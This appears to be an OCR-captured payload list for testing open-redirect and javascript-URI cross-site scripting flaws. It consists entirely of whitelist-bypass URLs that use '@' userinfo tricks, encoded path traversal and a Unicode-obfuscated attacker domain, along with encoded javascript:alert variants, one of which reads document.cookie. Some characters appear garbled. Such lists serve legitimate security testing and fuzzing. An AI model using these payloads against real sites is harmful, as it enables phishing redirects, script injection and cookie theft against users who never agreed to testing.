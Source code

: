 //javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\twhitelisted.com/
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
////whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ//
////whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
///whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ//
///whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/whitelisted.com
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ\@whitelisted.com
//whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ//
//whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/whitelisted.com
whitelisted.com;@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
////whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e
///whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e
////whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e%2f
///whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e%2f
//whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e%2f
////whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f..
///whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f..
//whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f..
////whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e
///whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e
//whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e
/\whitelisted.com:80%40google.com
whitelisted.com@%E2%80%AE@google.com
////whitelisted.com@google.com//
////whitelisted.com@google.com/
///whitelisted.com@google.com//
///whitelisted.com@google.com/
//whitelisted.com@google.com//
//whitelisted.com@google.com/
whitelisted.com;@google.com
whitelisted.com.google.com
////whitelisted.com@google.com/%2e%2e
///whitelisted.com@google.com/%2e%2e
////whitelisted.com@google.com/%2e%2e%2f
///whitelisted.com@google.com/%2e%2e%2f
//whitelisted.com@google.com/%2e%2e%2f
////whitelisted.com@google.com/%2f..
///whitelisted.com@google.com/%2f..
//whitelisted.com@google.com/%2f..
////whitelisted.com@google.com/%2f%2e%2e
///whitelisted.com@google.com/%2f%2e%2e
//whitelisted.com@google.com/%2f%2e%2e
//whitelisted.com+&@google.com#+@whitelisted.com/
//whitelisted.com@https:///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e
//whitelisted.com@https:///google.com/%2e%2e
//whitelisted.com+&@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ#+@whitelisted.com/
/x:1/:///%01javascript:alert(document.cookie)/
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
//XY>.7d8T\205pZM@whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
